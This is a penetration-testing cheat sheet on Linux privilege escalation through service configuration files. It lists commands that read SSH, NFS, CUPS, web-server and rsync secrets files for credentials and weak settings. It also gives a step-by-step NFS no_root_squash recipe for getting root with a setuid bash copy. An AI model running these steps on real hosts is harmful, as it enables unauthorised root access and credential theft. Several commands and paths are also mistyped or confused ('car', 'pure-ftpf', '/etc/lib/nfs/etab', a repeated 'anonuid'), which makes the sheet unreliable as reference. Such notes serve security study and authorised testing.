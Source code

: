 ```bash
cat /etc/exports                     # NFS server configuration file
cat /etc/lib/nfs/etab
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/syslog.conf                 # Syslog
cat /etc/chttp.conf                  #
cat /etc/lighttpd.conf               # Lighttpd
cat /etc/cups/cupsd.conf             # CUPS scheduler (Print Server)
cat /etc/printer.conf                # Printer configuration file for cups
cat /etc/inetd.conf                  # internet service daemon
cat /etc/apache2/apache2.conf        # Apache 2
cat /etc/mysql/mysql.conf            # MySQL
ls /etc/pure-ftpf/conf
car /etc/pure-ftpf/pure-ftpf.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/' # Displays all configuration files.
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \) # Rsync files
find /etc -name squid.conf -print 2>/dev/null
```

- **/etc/exports**: Contains configurations and permissions of which folders/file systems are exported to remote users.
  -> Search for **no_root_squash**. If present, you are root of the file systems/folders with that setting
  -> Search for **anonuid** and **anonuid**. Those are the uid and gid of the anonymous account mounting the system.
  If it's set to **0**, you will be root.

  ```bash
  # 1. Place a binary in it
  cp /bin/bash /VULNERABLE_SHARE
  # 2. Mount the share
  mount -t nfs SERVER:/VULNERABLE_SHARE /mnt/
  # 3. Get root
  chown root:root bash && chmod u+s bash
  ```

- **/etc/ssh/ssh_config**:

- **/etc/ssh/sshd_config**:
  -> Search for **PermitRootLogin**, if set to **yes**, you can login as root via SSH
  -> Search for **AllowUsers** in order to enumerate the users allowed to connect using SSH

- **/etc/cups/cupsd.conf**: You could found credentials or others usefull information in it
- **/etc/printer.conf**: You could found credentials or others usefull information in it


###### *If you don't know, now you know: **[NFS Root Squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/4/html/security_guide/s2-server-nfs-noroot)**

Root squash is a technique to void privilege escalation on the client machine via suid executables Setuid. Without root squash, an attacker can generate suid binaries on the server that are executed as root on other client, even if the client user does not have superuser privileges.
